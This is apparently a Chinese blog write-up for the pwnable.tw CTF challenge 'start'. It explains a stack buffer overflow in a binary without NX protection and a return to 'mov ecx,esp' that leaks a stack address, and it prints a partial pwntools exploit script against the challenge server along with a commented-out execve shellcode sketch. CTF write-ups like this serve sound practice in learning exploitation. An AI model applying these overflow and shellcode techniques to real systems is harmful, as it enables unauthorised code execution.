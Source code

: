 ```yaml
---
layout:     post
title:      pwnable.tw部分wp（更新中）
subtitle:   pwnable.tw解出题目的wp
date:       2020-11-12
author:     X1ng
header-img: tw.jpg
catalog: true
tags:
    - pwnable.tw
    - wp

---
```


最近在刷pwnable.tw。。。

### 1.start

例行检查

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmh9vl628j31v402wdg4.jpg)

没有开NX保护

用ida打开

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmh9vq0uij31wn0u0tg5.jpg)

只有start和exit函数，通过系统调用来调用函数，系统调用好保存在eax中，在执行完4号write系统调用和3号read系统调用后返回地址处是exit函数，可以看到即将执行ret时，esp指向地址的下一个地址是一个栈上的地址

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjmh9vez71j31bs0owaf1.jpg)

可以将其覆盖为`mov ecx,esp`，再重新执行write系统调用，就可以泄露出栈地址，再输入shellcode跳转到shellcode即可

exp:

```python
from pwn import *

r = 1
context(arch = 'i386', os = 'linux')

if r == 1 :
	p = remote('chall.pwnable.tw',10000)
else:
	p = process('./start')

mov = 0x08048087
#gdb.attach(p,'b *0x804809c')
p.recvuntil('Let\'s start the CTF:')
p.send(b'a'*0x14+p32(mov))
stack = p.recv(4)
stack = u32(stack)
print(hex(stack))

'''

mov ebx,0xffffffff
xor edx,edx
xor ecx,ecx
mov al,11
int 0x80
'''
```